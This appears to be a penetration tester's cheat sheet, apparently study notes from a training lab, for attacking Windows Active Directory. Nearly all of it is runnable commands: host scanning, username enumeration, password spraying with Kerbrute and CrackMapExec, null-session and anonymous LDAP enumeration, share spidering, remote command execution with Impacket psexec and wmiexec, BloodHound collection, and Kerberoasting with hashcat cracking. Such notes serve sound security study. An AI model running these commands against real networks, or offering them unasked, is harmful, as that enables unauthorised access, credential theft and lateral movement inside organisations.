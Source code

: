## Scanning, Enumeration, Recon, External

Scan for live hosts on network
```
fping -asgq sub.net.ip/24
```

Kerbrute for internal AD username enumeration
```
sudo git clone https://github.com/ropnop/kerbrute.git
sudo make all
kerbrute userenum -d <domain.local> --dc <domain.ip.number> <usernametextfile-to-test> -o valid_ad_users.txt
```

Kerbrute can be used to password spray
```
/kerbrute_linux_amd64 passwordspray -d <lab.ropnop.com> <domain_users.txt> <Password123>
```

Password spray with Crackmapexec
```
crackmapexec smb <domain.ip> -u <user.list> -p <Password-to-try> //use --local-auth hen trying a local admin account
```

Windows domain spray internally - https://github.com/dafthack/DomainPasswordSpray
```
import-module domainpasswordspray.ps1
invoke-DomainPasswordSpray -password <password-to-try> -outfile <output.file> -errorAction silentlycontinue
```

Link for Kerbrute - https://github.com/ropnop/kerbrute

List of usernames - https://github.com/insidetrust/statistically-likely-usernames

Enumerate Password Policy with CME
```
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
crackmapexec smb 172.16.5.5 --users
```

rpcclient to check a Domain Controller for SMB NULL session access
```
rpcclient -U "" -N <domain.ip>
then querydomaininfo to check password policy
Can also use enumdomusers command
```

enum3linux can enumerate windows hosts and domains
```
enum4linux -P <domain.ip>
enum4linux -U <domain.ip>  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```

enum4linux-ng is a rewrite and has additional features. -oA will output a JSON  and YAML file
```
enum4linux-ng -P <domain.ip> -oA save
```

Establish a null session on windows
```
net use \\DC01\ipc$ "" /u:""
```

LDAP anonymous binds allow unauthenticated attackers to retrieve information from the domain, such as a complete listing of users, groups, computers, user account attributes, and the domain password policy. From Linux.
```
ldapsearch -h <dc.ip> -x -b "DC=<domain-name>,DC=<LOCAL>" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
Getting users with LDAP Anonymous
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

Windapsearch can be userd to enumerate users, DA
```
windapsearch.py --dc-ip <172.16.5.5> -u "" -U
python3 windapsearch.py --dc-ip <172.16.5.5> -u <username>@<domainname.local> -p password --da //find domain admins
python3 windapsearch.py --dc-ip <172.16.5.5> -u <username>@<domainname.local> -p password -PU //find privileged users

```

## Initial Access

Enumerate users and spray passwords. Look for creds.

## Internal enumeration - Services, Accounts, Security Controls

Credentialed enumeration - We're interested in information about domain user and computer attributes, group membership, Group Policy Objects, permissions, ACLs, trusts, and more.

Crackmapexec for credentialed enumeration
```
sudo crackmapexec smb <domain.controller.ip> -u <username> -p <password> --users
sudo crackmapexec smb <domain.controller.ip> -u <username> -p <password> --groups
sudo crackmapexec smb <domain.controller.ip> -u <username> -p <password> --loggedon-users
sudo crackmapexec smb <domain.controller.ip> -u <username> -p <password> --shares
sudo crackmapexec smb <domain.controller.ip> -u <username> -p <password> -M spider_plus --share "Share name" //CME will write results into a json file at /tmp/cme_spider_plus/<ip of host>
```

SMBmap can be used to enumerate shares
```
smbmap -u <username> -p <password> -d <domainName.LOCAL> -H <domain.controller.ip>
smbmap -u <username> -p <password> -d <domainName.LOCAL> -H <domain.controller.ip> -R <Name of share> --dir-only //Recursively list directories
```

Impacket toolset
```
psexec.py <domainName.local>/<username>:<'password'>@<target.ip> //psexec requires a user with local admin privileges
wmiexec.py <domainName.local>/<username>:<'password'>@<target.ip> //not a fully interactive shell
```

Bloodhound - Once domain creds are obtained, you can run bloodhound - https://github.com/dirkjanm/BloodHound.py. Clone the repo then ```pip install .```
```
sudo bloodhound-python -u <'username'> -p <'password'> -ns <172.16.5.5> -d <domainname.local> -c all
sudo neo4j start
bloodhound
```

Credentialed Enumeration with Powershell
```
Import-Module ActiveDirectory
Get-ADDomain
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName //This will get us a listing of accounts that may be susceptible to a Kerberoasting attack
Get-ADGroup -Filter * | select name
```

Snaffler is a tool that can help us acquire credentials or other sensitive data in an Active Directory environment. - https://github.com/SnaffCon/Snaffler
```
snffler.exe
```

Kerberoasting from Linux
```
GetUserSPNs.py -dc-ip <172.16.5.5> <domain.LOCAL>/<user> -request
GetUserSPNs.py -dc-ip <172.16.5.5> <domain.LOCAL>/<user> -request-user <any-user> -outputfile <text-file-name>
hashcat -m 13100 <text-file-name> /usr/share/wordlists/rockyou.txt 
```


